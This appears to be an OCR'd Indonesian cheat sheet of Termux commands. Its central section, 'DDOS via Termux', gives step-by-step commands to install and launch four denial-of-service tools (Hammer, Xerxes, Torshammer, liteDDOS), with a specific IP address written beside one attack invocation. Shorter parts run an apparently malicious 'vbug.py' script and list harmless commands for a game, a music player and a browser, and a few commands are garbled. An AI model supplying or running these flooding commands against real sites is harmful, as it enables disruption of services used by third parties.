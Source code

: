 cd /sdcard
cd vbug
ls
chmod vbug.py
chmod -v vbug.py
python2 vbug.py
4. irssi
  /connet irc.freenode.net
/nick w3wandroid
/join #modol
_________________________
DDOS via Termux
————————————
1. Hammer
$ pkg update (tekan enter)
$ pkg upgrade (tekan enter)
$ pkg install python (tekan enter)
$ pkg install git (tekan enter)
$ git clone https://github.com/cyweb/hammer (tekan enter)
$ cd hammer (tekan enter)
$ python hammer.py (tekan enter)
$ python hammer.py -s [IP target] -p [port] -t 135 (tekan enter)   104.27.146.125
2. Xerxes
$ apt install git
$ apt install clang
$ git clone https://github.com/zanyarjamal/xerxes
$ ls
$ cd xerxes
$ ls
$ clang xerxes.c -o xerxes
$ ls
$ ./xerxes (nama website) 80
3. Torshammer
$ pkg update
$ pkg install git
$ apt install tor
$ pkg install python2
$ git clone https://github.com/dotfighter/torshammer.git
$ ls
$ cd torshammer
$ python2 torshammer.py
4. liteDDOS
$ apt update
$ apt upgrade
$ pkg install git
$ pkg install python2
$ git clone https://github.com/4L13199/LITEDDOS
$ cd LITEDDOS
$ python2 liteDDOS.py
_________________________________________
Bermain moon-buggy
$ pkg install moon-buggy
$ moon-buggy
________________________________________
Musikan di termux
$ pkg install mpv
$ mpv/sdcard/lagu.mp3
/sdcard/ bisa di ganti sesuai letak musik
________________________________________
Browsing di termux
$ pkg install w3m
$ w3m www.google.com
Linknya bsa diubah